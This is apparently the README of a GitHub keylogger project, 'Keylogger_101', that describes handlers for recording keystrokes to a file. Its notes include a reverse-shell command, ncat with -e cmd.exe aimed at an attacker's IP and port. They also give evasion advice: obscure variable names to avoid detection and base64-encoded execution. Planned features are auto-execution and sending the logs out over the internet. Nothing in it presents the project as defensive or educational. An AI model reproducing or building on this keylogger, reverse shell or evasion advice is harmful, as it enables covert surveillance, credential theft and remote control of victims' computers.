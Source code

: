 # Keylogger_101

kelogger_101

Requirements:

python 3, sys, subprocess

Functions:

* on_tryck : actions if key is pressed
* on_slapp : actions if key is released
* write_file : write to file with options

Notes:

* Replace os.system('cmd /k "ncat <ip> <port> -e cmd.exe"') with your corresponding IP & Port
* Variables need weird names to not get detected
* Use base64 or similar when exec

Future features:

* Auto exec (.exe)
* Send logs over the internet

